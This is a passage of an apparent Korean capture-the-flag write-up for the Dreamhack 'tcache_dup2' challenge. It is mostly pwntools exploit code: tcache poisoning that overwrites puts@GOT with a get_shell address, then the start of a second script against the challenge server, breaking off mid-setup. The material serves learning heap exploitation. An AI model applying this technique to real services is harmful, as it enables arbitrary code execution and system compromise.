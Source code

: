 ```py
modify(0, 0x10, p64(puts_got))


# tcache[0x20] : puts@got
# tc_idx = 1
# chunk : ptr[1]
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))

p.interactive()
```

<br>

## Exploit : **ex-2.py**

```
from pwn import *

p = remote('host3.dreamhack.games', 17171)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# malloc -> free를 2번 연속으로 해줘서 tc_idx = 2으로 만든 후, tcache_poisoning에서 tc_idx = 0이 되지 않도록 세팅
# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')
# tcache[0x20] : empty
# chunk : ptr[1]
create(0x20, b'b')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[1]
delete(0)
# tcache[0x20] : ptr[1] -> ptr[0]
# tc_idx = 2
```